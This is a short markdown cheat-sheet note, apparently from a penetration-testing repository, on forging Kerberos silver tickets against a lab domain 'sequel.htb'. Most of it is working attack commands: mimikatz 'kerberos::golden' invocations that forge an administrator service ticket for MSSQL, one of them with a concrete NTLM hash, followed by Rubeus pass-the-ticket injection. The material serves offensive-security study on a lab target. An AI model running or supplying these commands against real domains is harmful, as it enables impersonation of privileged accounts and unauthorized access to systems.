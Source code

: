silver ticket is just a way to forge TGS tickets

**remember all the tickets use NTLM hash**

**you may need to change the password format**

![image](https://github.com/akshadjoshi/JARVIS/assets/106912619/792404d7-270b-4337-bada-fad0204ada0d)


<!-- https://youtube.com/clip/Ugkx1tO49cFsCd7nP_NPLsxPDcmGF2iORw3p?si=wIICqsfpCpzXuvwe -->



```sh
.\mimikatz.exe "kerberos::golden /domain:sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:<ntlmhashofuser> /user:administrator /service:mssql /target:dc.sequel.htb" exit
```

```sh
.\mimikatz.exe "kerberos::golden /domain:sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:1443ec19da4dac4ffc953bca1b57b4cf /user:administrator /service:mssql /target:dc.sequel.htb" exit
```
`load in ram`

```sh
.\Rubeus.exe ptt /ticket:ticket.kirbi
```
